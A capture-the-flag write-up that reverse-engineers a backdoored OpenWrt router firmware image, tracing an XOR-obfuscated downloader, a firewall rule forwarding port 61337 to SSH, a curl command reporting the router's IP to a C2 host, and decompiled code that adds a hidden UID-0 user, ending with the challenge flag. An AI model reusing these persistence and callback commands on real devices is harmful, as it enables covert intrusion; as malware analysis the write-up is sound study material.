# ZombieNet
**Challenge scenario**: There was an attack on the NOC (Network Operations Center) of Hackster University and as a result, a large number of Network devices were compromised! After successfully fending off the attack the devices were decommissioned and sent off to be inspected. However, there is a strong suspicion among your peers that not all devices were identified! They suspect that the attackers managed to maintain access to the network despite our team's efforts! It's your job to investigate a recently used disk image and uncover how the Zombies maintain their access! Note: Make sure you edit /etc/host so that any hostnames found point to the Docker IP.

## Overview
The challenge provided a disk image, as described in the scenario.

This is a U-boot legacy ulmage firmware file for MIPS architecture, specifically an OpenWrt Linux 5.15.137 sysupgrade image for the Xiaomi Mi Router 4A gigabit. In short,
```
File type: U-Boot legacy uImage
Content: OpenWrt Linux kernel / firmware sysupgrade image
Architecture: MIPS
Target device: Xiaomi Mi Router 4A Gigabit
```
Since this is for firmware analysis, I extracted all embedded files using binwalk. While searching in these files and folders, I found a suspicious zombie_runner located in /sbin directory.

Lets check for its content.

It calls to /usr/bin/dead-reanimation, then sleeps.

It is an ELF executable. I used Ghidra for furthur analysis since my current IDA version don't have modules to analyze MIPS.

## Reverse dead-reanimation

From this entry() function, it calls to FUN_00400664() function, then FUN_00400cf4() function. And this is where things begin.

There are even some negative values lol. Those defined variables will be parsed to FUN_00400c04() function. It continue to checks for the existence of two executables, if those not exist then calls to FUN_00400b2() function. Finally use system() to execute the malicious files.
Let's dive deaper into FUN_00400c04() function to understand how those values are handled.

Well it just execute XOR between every characters from param_1 string with every byte from DAT_00400f24.
The values in DAT_00400f24 can be viewed here.

I also took values from DAT_00400f74 and DAT_00400fb0 variables to decrypt.

It downloads those two files from given URL and store to /tmp directory, afterward, uses system() to execute the code.

## Two downloaded files
So I downloaded those two files from after replacing the the host with docker's IP.

This script is a **Post Forwarding Backdoor**. First, WAN_IP extracts IPv4 address of the pppoe-wan interface, which is the router's public facing IP address that connected to the internet. ROUTER_IP extracts IP address of bf-lan interface. Then the following CONFIG creates a new redirect rule for the OpenWRT firewall with:
```
src 'wan': listen from traffic from internet
src_dport '61337': listen to port 61337 (unusual)
dest_port '22': redirects that traffic to port 22 - default port for SSH
dest_ip '${ROUTER_IP}': the destination of the redirected traffic is the router
```
Then it appends this new rule to the system's firewall configuration file, maintaing a persistence on victim's machine. 
Then it execute this command:
```
curl -X POST -H "Content-Type: application/json" -b "auth_token=SFRCe1owbWIxM3NfaDR2M19pbmY" -d '{"ip":"'${WAN_IP}'"}' http://configs.router.htb/reanimate
```
This command line is used to sent victim's IP address back to C2 server, that helps the attacker execute hidden commands.
And also the first part of the flag is found.


I also have another ELF file, open it with Ghidra and look for main() function. Here is its full code
```

undefined4 main(void)

{
  size_t sVar1;
  void *pvVar2;
  int iVar3;
  FILE *pFVar4;
  __uid_t _Var5;
  passwd *ppVar6;
  undefined4 uVar7;
  char cStack_169;
  undefined4 local_168;
  undefined1 auStack_164 [252];
  undefined1 auStack_68 [44];
  char acStack_3c [28];
  char local_20 [16];
  
  builtin_strncpy(local_20,"zombie_lord",0xc);
  memcpy(auStack_68,"d2c0ba035fe58753c648066d76fa793bea92ef29",0x29);
  memcpy(acStack_3c,&DAT_00400d50,0x1b);
  sVar1 = strlen(acStack_3c);
  pvVar2 = malloc(sVar1 << 2);
  init_crypto_lib(auStack_68,acStack_3c,pvVar2);
  iVar3 = curl_easy_init();
  if (iVar3 == 0) {
    uVar7 = 0xfffffffe;
  }
  else {
    curl_easy_setopt(iVar3,0x2712,"http://callback.router.htb");
    curl_easy_setopt(iVar3,0x271f,pvVar2);
    curl_easy_perform(iVar3);
    curl_easy_cleanup(iVar3);
    pFVar4 = fopen("/proc/sys/kernel/hostname","r");
    local_168 = 0;
    memset(auStack_164,0,0xfc);
    sVar1 = fread(&local_168,0x100,1,pFVar4);
    fclose(pFVar4);
    (&cStack_169)[sVar1] = '\0';
    iVar3 = strcmp((char *)&local_168,"HSTERUNI-GW-01");
    if (iVar3 == 0) {
      _Var5 = getuid();
      if ((_Var5 == 0) || (_Var5 = geteuid(), _Var5 == 0)) {
        ppVar6 = getpwnam(local_20);
        if (ppVar6 == (passwd *)0x0) {
          system(
                "opkg update && opkg install shadow-useradd && useradd -s /bin/ash -g 0 -u 0 -o -M z ombie_lord"
                );
        }
        pFVar4 = popen("passwd zombie_lord","w");
        fprintf(pFVar4,"%s\n%s\n",pvVar2,pvVar2);
        pclose(pFVar4);
        uVar7 = 0;
      }
      else {
        uVar7 = 0xffffffff;
      }
    }
    else {
      uVar7 = 0xffffffff;
    }
  }
  return uVar7;
}
```
First, it defines an username zombie_lord, using a hex string as key and calls to init_crypto_lib to decrypt data at DAT_00400d50, then stores to pvVar2.
Then it sents an HTTP requests to sent the result of pvVar2 to this server.
It also carefully check for its target, reading /proc/sys/kernel/hostname for machine's hostname and compare with HSTERUNI-GW-01. This ensures that this malware only runs on HSTERUNI-GW-01 machine.
Then it uses this command:
```
useradd -s /bin/ash -g 0 -u 0 -o -M zombie_lord
```
to set the user with UID=0 (root access), then run passwd zombie_lord to takes the password which is currently storing in pvVar2. 
So I guess I have to decrypt the password now.

## Decrypt password
To decrypt this user's password, let's find tp init_crypto_lib() function.
```
undefined4 init_crypto_lib(undefined4 param_1,undefined4 param_2,undefined4 param_3)

{
  undefined1 auStack_110 [260];
  
  key_rounds_init(param_1,auStack_110);
  perform_rounds(auStack_110,param_2,param_3);
  return 0;
}
```
It calls to key_rounds_init() and perform_rounds() functions, let's check them one by one.
```

/* WARNING: Removing unreachable block (ram,0x00400af4) */

undefined4 key_rounds_init(char *param_1,undefined1 *param_2)

{
  byte bVar1;
  size_t sVar2;
  int iVar3;
  undefined1 *puVar4;
  int iVar5;
  byte *pbVar6;
  int iVar7;
  
  sVar2 = strlen(param_1);
  iVar3 = 0;
  puVar4 = param_2;
  do {
    *puVar4 = (char)iVar3;
    iVar3 = iVar3 + 1;
    puVar4 = param_2 + iVar3;
  } while (iVar3 != 0x100);
  iVar3 = 0;
  iVar5 = 0;
  do {
    iVar7 = iVar3 % (int)sVar2;
    if (sVar2 == 0) {
      trap(0x1c00);
    }
    pbVar6 = param_2 + iVar3;
    bVar1 = *pbVar6;
    iVar3 = iVar3 + 1;
    iVar5 = (int)((int)param_1[iVar7] + (uint)bVar1 + iVar5) % 0x100;
    *pbVar6 = param_2[iVar5];
    param_2[iVar5] = bVar1;
  } while (iVar3 != 0x100);
  return 0;
}
```
RC4 algorithm. It put values into param_2, from 0 to 255, in short it just create an array where S[i]=i
Then
```
iVar5 = (int)((int)param_1[iVar7] + (uint)bVar1 + iVar5) % 0x100;
*pbVar6 = param_2[iVar5];
param_2[iVar5] = bVar1;
```
This block change position based on param_1 key, perhaps it needs a bit of crypto knowledge here to understand its mechanism. But we just need to know it is RC4 encryption.
And then
```

undefined4 perform_rounds(int param_1,char *param_2,int param_3)

{
  byte bVar1;
  size_t sVar2;
  byte *pbVar3;
  size_t sVar4;
  uint uVar5;
  uint uVar6;
  
  sVar2 = strlen(param_2);
  uVar6 = 0;
  uVar5 = 0;
  for (sVar4 = 0; sVar4 != sVar2; sVar4 = sVar4 + 1) {
    uVar5 = uVar5 + 1 & 0xff;
    pbVar3 = (byte *)(param_1 + uVar5);
    bVar1 = *pbVar3;
    uVar6 = bVar1 + uVar6 & 0xff;
    *pbVar3 = *(byte *)(param_1 + uVar6);
    *(byte *)(param_1 + uVar6) = bVar1;
    *(byte *)(param_3 + sVar4) =
         *(byte *)(param_1 + ((uint)bVar1 + (uint)*pbVar3 & 0xff)) ^ param_2[sVar4];
  }
  return 0;
}
```
param_1 points to S-Box (created from key_rounds_init() function), param_2 points to the encrypted ciphertext, param_3 save the output (decrypted password). It moves uVar5 and uVar6's indexes then swap values between S[uVar5] and s[uVar6]. Then execute XOR function.
Overall, it just implement RC4 encryption. So I used CyberChef to decrypt the password and got the second part of the flag.


**FLAG: HTB{Z0mb13s_h4v3_inf3ct3d_0ur_c0mmun1c4t10ns!!}**

---

